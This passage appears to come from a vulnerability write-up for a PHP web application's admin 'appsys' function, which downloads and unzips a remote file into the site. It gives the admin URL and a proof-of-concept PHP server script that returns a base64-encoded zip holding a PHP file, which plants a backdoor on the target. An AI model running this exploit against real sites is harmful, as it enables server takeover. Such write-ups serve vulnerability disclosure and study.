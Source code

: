 Line 302 determines whether the file exists or not. If it does not exist, line 303 obtains the server address saved in "APP Application Configuration". Line 318 obtains the data returned by the server. Line 324 writes the server data to the. zip file.

![19.png](./img/19.png)

Line 339 decompresses the .zip file.

In summary, the function will remotely read the server's file and write it to the .zip file, then unzip the .zip file to the website, so the attacker can use the vulnerability to generate the backdoor file to control the server.

Log in to the background and visit: ```/admin.php?c=appsys```

Click:

![20.png](./img/20.png)

![21.png](./img/21.png)

As shown in the figure, after setting this up, the function will initiate a request to ```http://127.0.0.1:8001/index.php```.

The contents of the http://127.0.0.1:8001/index.php file are as follows:
```
<?php
if(isset($_GET['id'])){
	echo  '{"status":1,"info":"UEsDBBQAAAAIALB9zU5oKo1CEQAAABEAAAAHAAAAZmYxLnBocLOxL8go4OUCEpl5afkamtYAUEsBAh8AFAAAAAgAsH3NTmgqjUIRAAAAEQAAAAcAJAAAAAAAAAAgAAAAAAAAAGZmMS5waHAKACAAAAAAAAEAGADz5N76uyHVAVEdNvK7IdUBUR028rsh1QFQSwUGAAAAAAEAAQBZAAAANgAAAAAA"}';
}
```
